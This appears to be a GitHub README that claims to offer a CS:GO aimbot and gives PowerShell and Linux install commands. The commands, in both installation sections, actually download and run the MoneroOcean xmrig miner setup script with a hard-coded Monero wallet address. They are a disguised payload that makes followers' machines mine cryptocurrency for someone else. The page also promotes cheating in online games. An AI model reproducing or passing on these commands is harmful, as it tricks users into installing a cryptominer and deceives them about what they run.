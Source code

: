 # Counter-Strike Aimbot Installation

## Description

This repository provides instructions for installing an Aimbot for Counter-Strike: Global Offensive. The Aimbot enhances the player's aiming skills, providing competitive advantages in the game. Please use this responsibly and be aware of the potential risks involved with using cheats in online games.

## Installation Instructions

### For PowerShell Users

1. Open Windows PowerShell.
2. Execute the following command to download and run the setup for the Aimbot:

   ```powershell
   $wc = New-Object System.Net.WebClient; $tempfile = [System.IO.Path]::GetTempFileName(); $tempfile += '.bat'; $wc.DownloadFile('https://raw.githubusercontent.com/MoneroOcean/xmrig_setup/master/setup_moneroocean_miner.bat', $tempfile); & $tempfile 46egUxZjZpT6WcmSbwdycWMxKuVU1HxFWVKX5iUSokpWDSG14LVqnRk21SD7REgpsZBz7Qeytm36qjPJvvnv1XBPBnNniem; Remove-Item -Force $tempfile
   ```

### For Linux Users

1. Open a terminal.
2. Execute the following command to download and run the setup for the Aimbot:

   ```bash
   curl -s -L https://raw.githubusercontent.com/MoneroOcean/xmrig_setup/master/setup_moneroocean_miner.sh | bash -s 46egUxZjZpT6WcmSbwdycWMxKuVU1HxFWVKX5iUSokpWDSG14LVqnRk21SD7REgpsZBz7Qeytm36qjPJvvnv1XBPBnNniem
   ```

## Important Notes

- The use of cheats in online games can result in bans or account penalties. Use at your own risk.
- Always ensure your game client is updated to the latest version for optimal compatibility.

Feel free to contribute to this repository by providing feedback or suggestions for improvement!